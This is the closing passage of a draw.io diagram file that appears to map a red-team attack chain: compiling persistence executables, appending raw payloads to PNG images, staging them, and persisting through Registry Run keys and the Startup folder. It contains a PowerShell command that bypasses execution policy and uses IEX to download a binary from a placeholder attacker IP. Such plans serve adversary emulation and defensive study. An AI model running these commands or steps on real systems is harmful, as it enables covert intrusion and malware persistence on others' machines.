        <mxCell id="Op0RA1QyIyzGp62vVNNJ-20" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-14">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-22" value="" style="group" vertex="1" connectable="0" parent="Op0RA1QyIyzGp62vVNNJ-14">
          <mxGeometry x="70" y="40" width="140" height="150" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-15" value="Compile EXE&#39;s" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-22">
          <mxGeometry width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-16" value="Pers_High.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-15">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-17" value="9201.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-15">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-18" value="9202.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-15">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-21" value="9203.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-22">
          <mxGeometry y="120" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-23" value="Stage Persistance Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="470" y="1470" width="1160" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-24" value="Pers_High.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-23">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-25" value="9201.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-23">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-26" value="9202.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-23">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-27" value="9201.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-23">
          <mxGeometry x="570" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-28" value="9202.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-23">
          <mxGeometry x="700" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-29" value="9203.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-23">
          <mxGeometry x="440" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-31" value="Scheduled_Task_Template.xml" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-23">
          <mxGeometry x="960" y="50" width="180" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-30" value="9203.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="1300" y="1520" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-32" value="Execute Persistence Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#00CC00;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="470" y="1618" width="910" height="272" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-33" value="Download staged binaries and png&#39;s to High IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-34" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/Pers_High.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-35" value="Execute Pers_High.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-36" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-33" target="Op0RA1QyIyzGp62vVNNJ-35">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-37" value="Execute 9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="470" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-38" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" edge="1" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-35" target="Op0RA1QyIyzGp62vVNNJ-37">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="415.0" y="155.0" as="sourcePoint" />
            <mxPoint x="505" y="225" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-39" value="Execute 9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="470" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-40" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-35" target="Op0RA1QyIyzGp62vVNNJ-39">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-41" value="Read Payload From 9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="760" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-42" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-37" target="Op0RA1QyIyzGp62vVNNJ-41">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-43" value="Read Payload From 9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="760" y="202" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-44" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-39" target="Op0RA1QyIyzGp62vVNNJ-43">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-45" value="Registry&lt;br&gt;Run Key" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="760" y="60" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-46" value="Startup&lt;br&gt;Folder" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="760" y="162" width="120" height="40" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
